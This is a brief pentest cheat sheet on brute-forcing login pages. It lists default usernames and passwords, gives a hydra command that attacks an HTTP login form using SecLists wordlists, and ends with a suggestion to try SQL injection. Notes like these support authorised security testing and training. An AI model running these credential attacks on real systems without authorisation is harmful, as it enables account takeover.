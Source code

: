 # brute forcing

- Try software default credentials
- Try the following usernames

```shell
admin
root
<software-name> (e.g. cms)
```

- Try the following passwords

```shell
root
password
```

- Brute force using most common credentials

```shell
cp /usr/share/seclists/Usernames/top-usernames-shortlist.txt users.txt
cp /usr/share/seclists/Passwords/darkweb2017-top100.txt passwords.txt
hydra -f -L users.txt -P passwords.txt $ip http-post-form "/login:username=^USER^&password=^PASS^:error message."
```
- Try SQL injection
